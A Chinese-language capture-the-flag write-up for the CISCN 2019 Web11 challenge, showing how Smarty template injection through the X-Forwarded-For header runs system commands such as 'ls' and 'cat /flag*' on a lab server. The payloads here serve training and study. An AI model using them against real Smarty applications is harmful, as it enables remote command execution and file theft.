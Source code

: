 ```yaml
---
title: CISCN 2019华东南Web11
date: 2022-05-14 22:10:34
toc: false
tags:
- SSTI
categories: CTF-Web
my: CISCN2019_Web11
---
```


拿到题目  我只看见满屏的IP  

![](https://s2.loli.net/2022/05/14/A6CEuG9DUd2KMXk.png)

第一时间想到这道题与IP有关系 打开我们的hackbar尝试修改X-Forwarded-For的值  发现右上角有了变化

![](https://s2.loli.net/2022/05/14/8tKpH5VEjrN6AlB.png)

![](https://s2.loli.net/2022/05/14/SQUjBWb8qmTc4vN.png)

尝试获取根目录下文件

```
{system('ls')}
```



右上角出现回显

![](https://s2.loli.net/2022/05/14/ub1EKCRpGHVN9fi.png)

为了方便我们burp抓一下包  直接定位到我们需要的位置

![](https://s2.loli.net/2022/05/14/xb2dZCHcheVUKzS.png)

尝试各种读取  发现都没有flag

- X-Forwarded-For:{system(‘cat /api’)}
- X-Forwarded-For:{system(‘cat /css’)}
- X-Forwarded-For:{system(‘cat /index.php’)}
- X-Forwarded-For:{system(‘cat /smarty’)}
- X-Forwarded-For:{system(‘cat /templates_c’)}
- X-Forwarded-For:{system(‘cat /xff’)}

于是根据做题经验，我们盲猜！flag在根目录  很快就找到了flag

```
{system('cat ../../../flag')}或者{system('cat /flag*')}
```

![](https://s2.loli.net/2022/05/14/irAJaCpnRwWljFm.png)

第二种解法偶尔会出现牛鬼蛇神fl0g就找不到 建议还是老老实实去根目录找

![](https://s2.loli.net/2022/05/14/4udCAWSvlmBospQ.png)
